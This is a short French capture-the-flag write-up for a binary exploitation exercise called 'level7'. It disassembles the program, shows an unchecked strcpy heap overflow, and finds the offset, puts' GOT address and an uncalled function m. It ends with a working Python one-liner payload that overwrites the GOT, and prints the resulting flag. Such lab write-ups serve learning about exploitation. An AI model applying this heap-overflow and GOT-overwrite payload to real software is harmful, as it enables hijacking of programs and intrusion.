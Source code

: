 ```
objdump -M intel -d level7
```

On observe que 2 mallocs sont fait puis des strcpy afin de copier les arguments 1 et 2 dans leurs emplacements dédiés (4 appels à malloc car le premier argument de chaque
strcpy semble etre alloué.
```c
char *l[4];

l[0] = malloc(8);
l[1] = malloc(8);
l[2] = malloc(8);
l[3] = malloc(8);
strcpy(l[0], argv[1]);
strcpy(l[3], argv[2]);
```

Strcpy n'est pas protégé et copiera jusqu'à la fin de la string.
On remarque que le fichier contient aussi une fonction m non appelée.
L'objectif va etre d'appeler la fonction m.
Au sein du premier strcpy, nous pouvons remplacer l'adresse de destination par l'adresse Got (Global offset table)de puts.
Pour le second, nous allons remplacer l[3] par l'adresse de la fonction m.

```
ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
# https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/
0x37614136 -> 20
```
L'offset commence donc à 20

Trouvons l'adresse GoT de la fonction puts

```
objdump -R level7
08049928 R_386_JUMP_SLOT   puts
```

Il ne nous manque plus que l'adresse de m:
```
gdb ./level7
info function m
0x080484f4  m
```

Nous allons donc effectuer un padding de 20, inserer l'adresse got puis ajouter l'adresse de m que nous avons trouvé.

```
./level7 `python -c "print('a' * 20 + '\x28\x99\x04\x08' + ' ' +  '\xf4\x84\x04\x08')"`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1631696136
```
